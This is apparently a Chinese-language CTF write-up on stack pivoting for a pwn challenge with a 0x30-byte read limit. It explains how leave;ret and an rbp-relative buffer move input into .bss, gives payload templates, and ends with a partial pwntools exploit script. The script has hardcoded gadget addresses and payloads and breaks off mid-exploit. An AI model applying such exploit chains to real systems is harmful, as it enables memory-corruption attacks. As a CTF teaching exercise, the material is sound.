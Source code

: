 我们可以看到read的第二个参数rsi是由rax赋值的，rsi应该存储我们buf的地址，而这个buf地址是由***lea rax,[rbp + buf]\***确定的，也就是说，***我们buf存储我们输入的地址是由rbp确定的！\***

那么如果我们第一次传入payload0=padding + bss_fake_stack + read_addr

我们的rbp会被移动到bss_fake_stack,而rsp依旧停留在栈内，接下来程序会调用read，而read存储我们输入的地址buf_addr又是由rbp决定，也就是说，我们的输入会被放在bss段内，接下来执行完read后还会执行leave_ret，而我们需要做的就是把rbp再次迁移到我们输入的代码中进行。下面放一个板子

```
payload 0 = padding + bss_addr + read_addr
paylaod n = next_rbp(addr1) + shellcode + padding + read_addr + addr1(bss_addr) + leave_ret_addr
```

分析：

1.payload0会把rbp送到bss_addr,而rsp依旧停留在栈内

2.执行完read函数后rbp被弹到我们输入到bss_addr处的addr1，而rsp被移动到bss_addr,紧接着执行我们传入的leave-ret-addr使rbp被移动到next_rbp，rsp又再次移动到之前rbp的位置+1即&shellcode，然后执行我们的shellcode进而再通过read进行下一次跳转

于是我们来看题，vuln函数如下：return read(0,buf,0x30uLL);

![logo](../images/18.png)

这道题的难点主要在read只读入0x30字节

按照正常泄露地址的流程：

payload = next_rbp + pop_rdi_ret + puts_got + puts_plt + read_addr + bss-0x20 + leave_ret一共会有0x38个字节。

经过网上信息检索和出题人的提示，原来这题可以通过往上迁移八字节来写入

我们可以多构造一次read函数来栈迁移，这次栈迁移的效果主要是将read计算的buf往上抬8字节，如下

***(bss_fake_stcak+8)+ read_addr + ret + ret + bss-0x20 + leave_ret\***

这样，rbp会被迁移到bss_fake_stack+8,而下次读入的&buf2 = &buf1 + 8，我们输入的第一个字长会在之前的read_addr处！

也就是说我们可以不传入bss_fake_stack(也就是板子里的next_rbp,这样就可以少写一个字长

所以我们可以给出代码！！！

```
from pwn import *
io = process('./pwn')
#io = remote('47.97.58.52',43001)
elf = ELF('./pwn')
libc = ELF('libc.so.6')
context(os = 'linux',arch ='amd64',log_level = 'debug')
puts_got = 0x404018
puts_plt = 0x401070
leave_ret = 0x401234
pop_rdi = 0x4012c3
ret = 0x40101a
bss = 0x404800
read = 0x40121D
payload = b'a'*0x20 + p64(bss) + p64(read)
gdb.attach(io)
pause()
io.sendafter(b'but not stack ~\n',payload)
payload1 = p64(bss+0x8) + p64(read) + p64(0)*2+ p64(bss-0x20) + p64(leave_ret)
```